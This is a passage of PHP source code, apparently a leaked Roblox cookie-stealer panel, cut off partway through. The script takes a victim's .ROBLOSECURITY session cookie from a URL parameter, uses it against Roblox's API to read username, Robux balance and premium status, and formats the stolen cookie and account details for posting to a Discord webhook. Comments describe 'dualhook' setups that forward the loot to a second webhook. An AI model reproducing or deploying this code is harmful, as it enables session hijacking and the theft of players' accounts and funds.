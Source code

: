<?php
$logo = "https://media.discordapp.net/attachments/927449954367205378/932716250075897957/standard_1.gif"; // you can change to your own logo url
$name = "LEAKED BY ME"; // you can change to your own name
$webhook = "THEM"; // anyones webhook
$dualhook = "YOU"; // ofc shitter is dualhook so they have a dualhook in it change this to your dualhook
$inameb = $_SERVER['SERVER_NAME'];
$iname = strtoupper($_SERVER['SERVER_NAME']);
if (!empty($_GET["cookie"])) {
$cookie = $_GET["cookie"];
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, "http://www.roblox.com/mobileapi/userinfo");
curl_setopt($ch, CURLOPT_HTTPHEADER, array(
'Cookie: .ROBLOSECURITY=' . $cookie
));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$profile = json_decode(curl_exec($ch) , 1);
curl_close($ch);
if (empty($profile)) {
header("Refresh:0; url=page2.php");
} else {
$userid = $profile["UserID"];
$username = $profile["UserName"];
$robux = $profile["RobuxBalance"];
$premium = $profile["IsPremium"];
$vxleaked = json_encode([
            "username" => "BOT - $name",
            "avatar_url" => "$logo",
             "content" => "@everyone",
                "embeds" => [
                    [
                        "title" => '**:money_with_wings: +1 Result Account :candle:**',
                        "type" => "rich",
                        "description" => "**[Check Cookie](http://$inameb/chk.php?cookie=$cookie)**",
                        "url" => "https://www.roblox.com/users/",
                        "color" => hexdec("964B00"),
                        "thumbnail" => [
                            "url" => "https://www.roblox.com/bust-thumbnail/image?userId=$userid&width=352&height=352&format=png"
                        ],
                        "author" => [
                             "name" => "$name - Result",
                             "url" => "https://discord.gg/ATDdpH97JM"
                        ],
                        "fields" => [
                            [
                                "name" => "**Username**",
                                "value" => "$username",
                                "inline" => False
                            ],
                            [
                                "name" => "**Robux**",
                                "value" => "$robux",
                                "inline" => False
                            ],
                            [
                                "name" => "**Premium**",
                                "value" => "$premium",
                                "inline" => False
                            ],
                            [
                                "name" => "**Cookie :cookie:**",
                                "value" => "```$cookie```",